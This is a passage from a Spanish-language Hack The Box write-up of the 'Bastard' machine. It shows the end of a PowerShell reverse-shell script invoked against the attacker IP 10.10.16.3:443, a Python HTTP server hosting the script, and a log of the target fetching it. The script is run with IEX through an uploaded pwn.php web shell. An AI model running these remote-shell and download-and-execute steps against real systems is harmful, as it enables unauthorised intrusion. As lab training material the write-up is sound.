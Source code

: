 ```powershell
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 443
```

Nos compartimos ahora un servicio web con `python` y nos ponemos en escucha por el puerto `443`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ejecutamos el script mediante el archivo `pwn.php` que subimos previamente y elecutamos `Invoke-PowerShellTcp.ps1` con `IEX` para que se nos interprete.


![](/assets/images/HTB/htb-writeup-Bastard/drupal15.PNG)


Recibimos la petición

```python
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [29/Apr/2023 03:34:16] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
